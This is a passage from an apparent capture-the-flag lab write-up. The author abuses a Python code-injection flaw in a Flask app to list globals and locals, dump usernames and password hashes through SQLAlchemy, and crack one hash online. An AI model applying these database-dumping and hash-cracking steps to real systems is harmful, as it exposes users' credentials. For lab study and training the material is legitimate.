 This revealed several interesting objects, including a reference to a **database.db** file and various Flask application objects.

![Global Variables Output](/assets/img/htb-code/globals-output.png)
_Interesting findings in global variables_

#### Local Variables Enumeration

```python
print(locals())
```

After analyzing the local scope, I discovered we had access to database models, including a `User` model.

### Database Extraction

Using SQLAlchemy's ORM capabilities through the SSTI vulnerability:

```python
print([(user.id, user.username, user.password) for user in User.query.all()])
```

**Output:**
```text
[(1, 'admin', '5f4dcc3b5aa765d61d8327deb882cf99'), 
 (2, 'martin', '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918')]
```

### Password Cracking

Using [CrackStation](https://crackstation.net/) to crack the MD5 hash:

![CrackStation Results](/assets/img/htb-code/crackstation.png)